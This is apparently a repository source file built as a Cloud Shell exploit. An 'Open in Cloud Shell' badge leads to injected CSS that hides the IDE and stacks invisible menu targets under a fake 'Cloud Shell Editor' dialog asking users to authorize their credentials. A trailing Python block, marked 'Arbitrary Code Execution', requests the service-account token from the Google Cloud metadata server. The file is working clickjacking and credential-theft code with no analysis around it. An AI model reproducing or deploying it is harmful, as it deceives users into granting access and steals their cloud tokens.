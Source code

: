 '''
[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?show=ide&cloudshell_git_repo=https://github.com/Nowasky/03.git&open_in_editor=README.md)
<svg><style>#theia-top-panel,#theia-left-content-panel,#theia-main-content-panel,#theia-right-content-panel,#theia-statusBar,.p-SplitPanel-handle {visibility:hidden} #theia-bottom-content-panel{z-index:0} #theia-app-shell .exploit {display: block; visibility: visible;z-index:998}.p-Menu-item,.p-MenuBar-item{display:none}.p-MenuBar,.p-MenuBar-item:nth-child(6){visibility: visible!important;display:block;position:fixed;z-index:999;opacity:0;height:9999px;width:9999px;top:0;left:0}.p-Menu-item:nth-child(2){visibility: visible!important;display:block!important;position:fixed;z-index:999;opacity:0;max-height:none;height:100%;width:100%;top:0;left:0;opacity:0}.p-MenuBar-menu{visibility: visible!important;width:100%;height:100%;opacity:0!important}.p-mod-active{display:none}</style></svg>
<div class="exploit">
<div style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: none;
top: 0;
left: 0;
height: 100%;
width: 100%;
position: fixed;
z-index: 998;">
<div style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
position: absolute;
top: 0;
bottom: 0;
left: 0;
right: 0;
z-index: 998;
pointer-events: auto;
-webkit-tap-highlight-color: transparent;
transition: opacity .4s cubic-bezier(.25,.8,.25,1);
background: rgba(0,0,0,.6);
opacity: 1;"></div>
<div dir="ltr" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
direction: ltr;
unicode-bidi: isolate;
pointer-events: none;
top: 0;
left: 0;
height: 100%;
width: 100%;
display: flex;
position: absolute;
z-index: 998;
justify-content: center;
align-items: center;">        
<div id="cdk-overlay-0" style="color: rgba(0,0,0,.87);
z-index: 998;
box-sizing: border-box;
padding: 20px 0;
display: flex;
-webkit-box-orient: vertical;
-webkit-box-direction: normal;
flex-direction: column;
min-width: 700px;
max-width: 700px;
max-height: 100%;
pointer-events: auto;
position: static;">
<div tabindex="0" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: auto;
border: 0;
clip: rect(0 0 0 0);
height: 1px;
margin: -1px;
overflow: hidden;
padding: 0;
position: absolute;
width: 1px;
outline: 0;" aria-hidden="true"></div>
<div aria-modal="true" tabindex="-1" id="mat-dialog-0" role="dialog" aria-labelledby="mat-dialog-title-0" style="pointer-events: auto;
background: #fff;
color: rgba(0,0,0,.87);
box-sizing: border-box;
overflow: auto;
outline: 0;
width: 100%;
height: 100%;
min-height: inherit;
max-height: inherit;
display: flex;
z-index:9999;
-webkit-box-orient: vertical;
-webkit-box-direction: normal;
flex-direction: column;
padding: 0;
box-shadow: 0 1px 3px 0 rgba(60,64,67,.3),0 4px 8px 3px rgba(60,64,67,.15);
border-radius: 8px;
transform: none;">
<div _nghost-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
display: flex;
flex-direction: column;
height: 100%;
overflow: hidden;">
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 5000;
flex-basis: 5px;"></div>
<h1 _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 18px/24px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: normal;
display: block;
margin: 18px 0 0 20px;
flex-shrink: 0;
flex-grow: 0;" mat-dialog-title="" id="mat-dialog-title-0">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 18px/24px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: normal;"></div> Cloud Shell Editor</h1>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 1000;
flex-basis: 10px;"></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;
display: block;
max-height: 65vh;
margin: 0;
padding: 18px 20px 10px 20px;
flex-shrink: 1;
flex-grow: 1000;
overflow: auto;" mat-dialog-content="">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;"></div>
 Cloud Shell Editor is powered by the Eclipse Theia IDE platform. It comes pre-configured with all the tools you need to get going with cloud-native development on Google Cloud. 
<p class="ng-star-inserted" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;"> In order to continue using this product, you must authorize the use of your credentials on the next screen. </p><!----></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 1000;
flex-basis: 30px;
min-height: 5px;"></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
display: flex;
flex-wrap: wrap;
align-items: center;
box-sizing: content-box;
margin: 0;
padding: 0 0 18px 20px;
min-height: 0;
flex-shrink: 0;
flex-grow: 0;" mat-dialog-actions="">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;"></div>
<button mat-flat-button="" style="pointer-events: auto;
-webkit-box-direction: normal;
box-sizing: border-box!important;
position: relative;
user-select: none;
cursor: pointer;
outline: none;
border: none;
-webkit-tap-highlight-color: transparent;
display: inline-block;
white-space: nowrap;
text-decoration: none;
vertical-align: baseline;
text-align: center;
margin: 0;
min-width: 64px;
overflow: visible;
height: 30px;
border-radius: 4px;
padding: 0 24px;
box-shadow: 0 0 0 0 rgba(0,0,0,.2),0 0 0 0 rgba(0,0,0,.14),0 0 0 0 rgba(0,0,0,.12);
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
background: #1a73e8;
color: #fff;
margin-right: 10px;">
<span style="pointer-events: auto;
-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;"> Continue </span>
<span style="-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;
overflow: hidden;
top: 0;
left: 0;
right: 0;
bottom: 0;
position: absolute;
pointer-events: none;
border-radius: inherit;" matripple=""></span>
<span style="-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;
background: #000;
top: 0;
left: 0;
right: 0;
bottom: 0;
position: absolute;
pointer-events: none;
border-radius: inherit;
opacity: 0;
transition: none;"></span>
</button>
</div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 5000;
flex-basis: 5px;"></div>
</div></div>
<div tabindex="0" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: auto;
border: 0;
clip: rect(0 0 0 0);
height: 1px;
margin: -1px;
overflow: hidden;
padding: 0;
position: absolute;
width: 1px;
outline: 0;" aria-hidden="true"></div> 
</div>
</div>
</div>
</div>
<!--'''

print('Arbitrary Code Execution')
import requests
r = requests.get('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token', headers={"Metadata-Flavor":"Google"})
